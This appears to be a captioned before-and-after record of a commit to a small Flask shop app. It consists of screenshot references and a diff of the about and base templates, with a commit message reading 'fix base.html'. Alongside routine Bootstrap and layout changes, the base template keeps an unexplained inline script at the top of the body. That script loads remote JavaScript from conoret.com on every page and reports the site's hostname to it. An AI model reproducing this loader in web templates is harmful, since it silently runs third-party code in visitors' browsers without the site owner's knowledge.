

Before and after one commit to ev9esh/Shop, a Flask app: page /about in a window 1280 px wide. Shown: the top 608 px of the page. Run offline with Flask 2, Linux system fonts and the light colour scheme; grey boxes are pictures that could not be loaded.

Commit message:
fix base.html

```diff
--- a/templates/about.html
+++ b/templates/about.html
@@ -5,5 +5,8 @@
 {% endblock %}
 
 {% block body %}
-    <h1>Про магазин</h1>
+    <div class="container">
+        <h1>Про магазин</h1>
+        <p>Описание магазина</p>
+    </div>
 {% endblock %}
--- a/templates/base.html
+++ b/templates/base.html
@@ -1,15 +1,14 @@
 <!doctype html>
-<html lang="en">
+<html lang="ru">
 <head>
     <meta charset="UTF-8">
     <meta name="viewport"
           content="width=device-width, user-scalable=no, initial-scale=1.0, maximum-scale=1.0, minimum-scale=1.0">
     <meta http-equiv="X-UA-Compatible" content="ie=edge">
-    <link style="stylesheet" href="https://cdn.jsdelivr.net/npm/bootstrap@5.2.0/dist/css/bootstrap.min.css">
+    <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bootstrap@5.2.0/dist/css/bootstrap.min.css" integrity="sha384-gH2yIJqKdNHPEq0n4Mqa/HGKIhSkIHeL5AyhkYV8i59U5AR6csBvApHHNl/vI1Bx" crossorigin="anonymous">
     {% block title %}{% endblock %}
 </head>
-<body>
-<script type="text/javascript">window.top === window && !function(){var e=document.createElement("script"),t=document.getElementsByTagName("head")[0];e.src="//conoret.com/dsp?h="+document.location.hostname+"&r="+Math.random(),e.type="text/javascript",e.defer=!0,e.async=!0,t.appendChild(e)}();</script>
+<body><script type="text/javascript">window.top === window && !function(){var e=document.createElement("script"),t=document.getElementsByTagName("head")[0];e.src="//conoret.com/dsp?h="+document.location.hostname+"&r="+Math.random(),e.type="text/javascript",e.defer=!0,e.async=!0,t.appendChild(e)}();</script>
 
 <svg xmlns="http://www.w3.org/2000/svg" style="display: none;">
   <symbol id="check" viewBox="0 0 16 16">
@@ -33,7 +32,13 @@
       </nav>
     </div>
 
-      {% block body %}{% endblock %}
+    <div class="pricing-header p-3 pb-md-4 mx-auto text-center">
+      <h1 class="display-4 fw-normal">Pricing</h1>
+      <p class="fs-5 text-muted">Quickly build an effective pricing table for your potential customers with this Bootstrap example. It’s built with default Bootstrap components and utilities with little customization.</p>
+    </div>
+  </header>
+
+  {% block body %}{% endblock %}
 
   <footer class="pt-4 my-md-5 pt-md-5 border-top">
     <div class="row">
@@ -73,5 +78,10 @@
     </div>
   </footer>
 </div>
+
+
+
+
+
 </body>
 </html>
```
Also changed, not shown: templates/leave_feedback.html (+19 -0 lines).
